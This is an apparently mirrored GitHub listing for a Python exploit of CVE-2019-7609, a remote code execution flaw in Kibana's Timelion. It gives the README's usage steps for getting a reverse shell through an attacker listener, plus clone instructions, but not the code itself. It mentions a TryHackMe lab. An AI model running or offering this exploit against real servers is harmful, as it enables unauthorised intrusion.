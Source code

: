 # cve-2019-7609

Kibana <6.6.0 RCE written in python3

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Cr4ckC4t](https://github.com/Cr4ckC4t) |
| Url      | [https://github.com/Cr4ckC4t/cve-2019-7609](https://github.com/Cr4ckC4t/cve-2019-7609)                                               |
| Stars    | 2                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2019-7609* exploit-dev* python36* rce

</details>

## Readme

# CVE-2019-7609

Exploit for CVE-2019-7609 written in `python3.6+` based on the [code by LandGrey](https://github.com/LandGrey/CVE-2019-7609).

> **CVE-2019-7609**: RCE on Kibana versions before 5.6.15 and 6.6.0 in the Timelion visualizer.

## Usage

1. Start a listener
2. Run the exploit with the target url (base url of the kiba server), the listener host address and listener port as arguments

```bash
./cve-2019-7609.py http://<target>:5601 <listener-ip> <listener-port>
```
3. Enjoy RCE

## Example

> Tested on the [Kiba room on TryHackme](https://tryhackme.com/room/kiba)

![Example](example.png)



## Get the content

```
git clone https://github.com/Cr4ckC4t/cve-2019-7609
cd cve-2019-7609
```

{% embed url="https://github.com/Cr4ckC4t/cve-2019-7609" %}

<figure><img src="https://avatars.githubusercontent.com/u/63863112?v=4" alt=""><figcaption><p>Cr4ckC4t</p></figcaption></figure>
